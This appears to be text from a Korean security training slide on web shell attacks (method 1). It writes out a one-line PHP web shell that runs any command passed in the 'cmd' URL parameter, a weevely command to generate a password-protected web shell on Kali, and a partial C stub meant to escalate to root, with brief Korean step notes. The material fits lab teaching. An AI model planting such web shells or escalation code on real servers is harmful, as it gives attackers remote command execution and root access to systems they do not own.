

WEBSHELL 공격

# WebShell 공격 : 방법 1번
Console
@@@ CentOS, Ubuntu, Kali @@@
# vi webshell.php
<?php system($_GET[‘cmd’]); ?>

@@@ Kali @@@
# weevely generate 123456 /root/weevely.php
//weevely generate [비밀번호] [파일저장경로]

@@@ 권한 상승 스크립트 @@@
# vi amdinget.c
include <stdio.h>
main(){ setgid(0); setuid(0); }
공격자 PC에서 먼저 Web Shell 스크립트를 만들어준다. 처음엔 제일 간단한 한 줄 스크립트로 cmd 뒤에 오는 문장을 system() 함수에 넣어준다.
칼리를 사용한다면 내장 프로그램인 weevely 를 사용할 수 있다.
관리자 권한 상승 스크립트를 생성한다.